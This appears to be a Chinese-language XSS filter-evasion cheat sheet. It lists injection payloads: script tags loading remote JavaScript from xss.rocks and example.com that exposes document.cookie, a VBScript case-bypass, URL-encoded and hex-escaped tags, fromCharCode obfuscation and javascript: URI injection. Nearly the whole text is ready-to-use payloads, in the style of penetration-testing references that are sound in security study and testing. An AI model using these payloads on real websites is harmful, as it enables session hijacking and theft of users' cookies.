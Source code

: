 ### 基本XSS，不回避任何 filter

~~~
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
~~~

* http://xss.rocks/xss.js 的内容
    ~~~ javascript
    /* This file is based on the file from http://ha.ckers.org/xss.js
       It has been reproduced here due to the extended downtime of ha.ckers.org
       This file is being hosted as a courtesy to the security community.
    */

    document.write ("This is remote text via xss.js located at xss.rocks " + document.cookie);
    alert ("This is remote text via xss.js located at xss.rocks " + document.cookie);
    ~~~

### 绕过大小写检查


#### 使用VBScript绕过大小写

Since JavaScript is case sensitive, some people attempt to filter XSS by converting all characters to upper case, rendering Cross Site Scripting utilizing inline JavaScript useless. If this is the case, you may want to use `VBScript` since it is not a case sensitive language.

~~~ html
<!-- javascript -->
<script>alert(document.cookie);</script>

<!-- vbscript -->
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
~~~


### 转义尖括号 \< \>

~~~ html
<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
~~~

### 利用 `fromCharCode` 转义

~~~
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
~~~

### 从 `javascript:` 注入

~~~
<IMG SRC="javascript:alert('XSS');">
~~~
